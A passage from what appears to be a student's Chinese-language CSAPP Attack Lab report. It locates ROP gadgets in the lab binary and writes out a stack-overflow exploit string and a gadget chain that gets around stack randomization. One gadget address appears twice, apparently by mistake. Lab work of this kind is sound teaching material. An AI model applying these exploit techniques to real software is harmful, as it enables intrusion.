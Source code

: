> 注意这里是在 farm.c 中的地址，要想使用，待会还需要获得这段代码在 `rtarget` 内的值。

第二行的指令为`48 89 C7`，可以用

```assembly
0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64 
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3   
```

再将`rtarget`反汇编，我们所需要的两段`gadget`的地址分别是：`0x4019b9`、`0x4019a2`。

![image-20220608230128049](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608230128049-16547004886541.png)

![image-20220608230202849](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608230202849.png)

所以我们构造的字符串可以是：

```
20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 B9 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

保存为`level2_4.txt`，做测试。

![image-20220608231422239](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608231422239.png)

#### Level 3（Phase 5）

需要做的和 Phase 3 一样，只不过处理手段要按照**限制**来做。

在 Level 3 中，栈的位置是随机的，只能用`栈顶地址 + 偏移量`来找到字符串。

重复 Phase 3 的思路：首先：`movq	%rsp, %rax`，这个指令的指令字节为 `48 89 e0`，这一步的地址是`0x401a06`。

![image-20220608232117501](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608232117501.png)

然后：`movq	%rax, %rdi `，这个指令的指令字节为 `48 89 c7`，这一步的地址是`0x401a06`。

![image-20220608232242042](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608232242042.png)

> 其实这一步有更加现成的`gadget`，但是还是按照要求从farm里找。

然后：`popq	%rax`，这个指令的指令字节为`58`，这一步的地址是`0x4019cc`。

![image-20220608232447369](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608232447369.png)

然后：`movl	%eax, %edx`，这个指令的指令字节为`89 c2`，这一步的地址是`0x4019dd`。

![image-20220608232546481](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608232546481.png)

然后：`movl	%edx, %ecx`，这个指令的指令字节为`89 d1`，这一步的地址是`0x401a70`。

![image-20220608232731373](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608232731373.png)
